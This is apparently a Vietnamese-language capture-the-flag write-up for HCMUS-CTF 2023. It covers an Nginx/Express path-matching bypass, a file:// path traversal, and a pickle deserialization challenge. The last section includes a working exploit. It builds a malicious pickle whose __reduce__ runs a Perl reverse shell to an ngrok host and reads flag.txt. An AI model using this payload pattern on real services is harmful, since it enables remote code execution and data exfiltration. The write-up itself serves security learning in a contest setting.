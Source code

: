 # HCMUS-CTF2023-writeup
# WEB
### Cute Quote

App.js :
```js
const express = require('express')
const app = express()
const port = 3000

app.use(express.json())
app.use(express.static('css'))

app.get('/', (req, res) => {
  res.sendFile('./index.html', { root: __dirname })
})

const quotes = ['Insanity: doing the same thing expecting different results', '{{7*7}}', '<?php system("whoami"); ?>', '42 is the Answer to the Ultimate Question of Life, the Universe, and Everything']
app.get('/api/public/quote', (req, res) => {
  let quote = quotes[Math.floor(Math.random() * quotes.length)]
  res.send(quote)
})

app.get('/api/public/fake', (req, res) => {
  res.send("HMCSU-CFT{fake_flag}")
})

const flag = process.env.FLAG || "HCMUS-CTF{real_flag}"
app.get('/api/private/flag', (req, res) => {
  res.send(flag)
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
}
```

- Nhìn sơ qua source code thì đây là một chall viết bằng Express của NodeJS và server được chạy bằng Nginx.
- Có 3 đường dẫn ta cần quan tâm tới là ```/api/public/fake``` dẫn đến fake flag, ```/api/public/quote``` dẫn đến các câu quote được lưu sẵn và cuối cùng là ```/api/private/flag``` dẫn đến flag.
- Tuy nhiên chúng ta không thể truy cập để ```/api/private/flag``` qua cách thông thường.
- Để có thể truy cập, ta sẽ lợi dụng việc sử lý URL của Nginx và Express để có thể đọc flag.
- Đây là URL của mình: ```urlchall/Api/private/flag```
- Flag ```HCMUS-CTF{where_nginx_meet_express!}```
### Safe Proxy

  ![image](https://user-images.githubusercontent.com/89735990/236755727-7eca3e63-61ea-4823-876b-931e9711136d.png)

- Đây là một chall có tag easy nhưng mình tốn khá nhiều thời gian cho nó.
- Trang web có 3 đường dẫn đến các info khác nhau.

  ![image](https://user-images.githubusercontent.com/89735990/236756363-d4ab4210-0eb8-477c-81b7-19cc4a6059d6.png)


- Nhưng khi click thử thì mình không thể vào được do một lỗi gì đó ở User Agent.
- Do không có source code nên mình cũng dám chắc lỗi nằm ở đâu,Flag nằm ở đâu, cũng như khó xác định được hướng làm bài.
- Nhưng sau khi btc gửi hint cũng như một số thắc mắc của người chơi thì mình đã thử dùng phương pháp path traversal

  ![image](https://user-images.githubusercontent.com/89735990/236756803-5cf00b87-67ad-400e-ba3d-8589ecf14d3c.png)

  ![image](https://user-images.githubusercontent.com/89735990/236756877-689cb4bb-dc51-4455-ad4c-3524036f5446.png)
  
- Mình đã thử với sử dụng cách URI Scheme khác và mình nhận ra có thể dùng ```view-source:file://``` để truyền payload path traversal vào.

  ![image](https://user-images.githubusercontent.com/89735990/236757691-f10082a4-21fe-4a2a-884d-a06f3396d223.png)

- FLag : ```HCMUS-CTF{browser_scheme_is_interesting}```
### Python Pickle
Server.py:
```py
import pandas as pd
import io
import time
import threading
import socketserver
import sys
from io import StringIO
import secrets
import os
import numpy as np

FLAG_FILE = "flag.txt"
PORT = int(os.getenv("APP_PORT"))
HOST = "0.0.0.0"

original_stdout = sys.stdout

class Service(socketserver.BaseRequestHandler):
    def handle(self):
        captured_output = StringIO()
        sys.stdout = captured_output
        self.flag = self.get_flag()
        
        token = secrets.token_bytes(16)
        
        self.send(b"Gimme your pickle data size (send as byte string)\n")
        data_size = int(self.request.recv(64).decode())
        
        self.send(b"Gimme your pickle data frame (raw bytes)\n")
        pickle_data = self.receive(data_size)
        df = pd.read_pickle(io.BytesIO(pickle_data))
        
        try:
            if bytes(np.random.choice(df["x"], size=16)) == token:
                print(self.flag)
            else:
                raise Exception("Oh no!")
        except Exception as e:
            print("Oops, you missed it!")
            print(e)
        
        self.send(captured_output.getvalue().encode())
        sys.stdout = original_stdout
        
            
    def get_flag(self):
        with open(FLAG_FILE, 'rb') as f:
            return f.readline()
    
    def send(self, s: str):
        self.request.sendall(s.encode("utf-8"))
        
    def send(self, b: bytes):
        self.request.sendall(b)

    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
    
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass

def main():
    service = Service
    server = ThreadedService((HOST, PORT), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    print("Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while True:
        time.sleep(10)
        
if __name__ == "__main__":
    main()
```
- Đọc sơ qua code mình phát hiện được rằng server không hề kiểm tra user input mà sẽ dùng trực tiếp để deserialied.
- Từ đó ta có thể lợi dụng điều này để có thể truyền input vào và get flag.
```py
    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
```
- Hàm recive bắt buộc phải nhận đúng 256 byte nếu không sẽ bị lỗi.
- Ý tưởng của mình ngrok để dựng lên một TCP server rồi dùng perl để mở lại stdin stdout stderr và ```cat flag.txt```
```py
import pickle
import base64
import os
import pandas

#r = remote("127.0.0.1", 4135)
r = remote(
    "pickle-trouble-0d7cddd74709c50c.chall.ctf.blackpinker.com", 443, ssl=True)


class RCE:
    def __reduce__(self):
        cmd = 'perl -e \'use Socket;'
        cmd += "$i='0.tcp.ap.ngrok.io'; $p=10151;"
        cmd += "socket(s, PF_INET, SOCK_STREAM, getprotobyname('tcp'));"
        cmd += "if(connect(s,sockaddr_in($p, inet_aton($i))))"
        cmd += "{open(STDIN, '>&s');open(STDOUT,'>&s'); open(STDERR, '>&s'); exec('cat flag.txt');};\"
        cmd = cmd.ljust(256, 'S')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    r.recvuntil(b"byte string)\n")
    r.sendline(b'256')
    r.recvuntil(b'(raw bytes)\n')
    r.sendline(pickled)
    r.interactive()
    ```
  Flag : ```HCMUS-CTF{S||\/|pL3_p1cKlE_ExpL01t-Huh}```

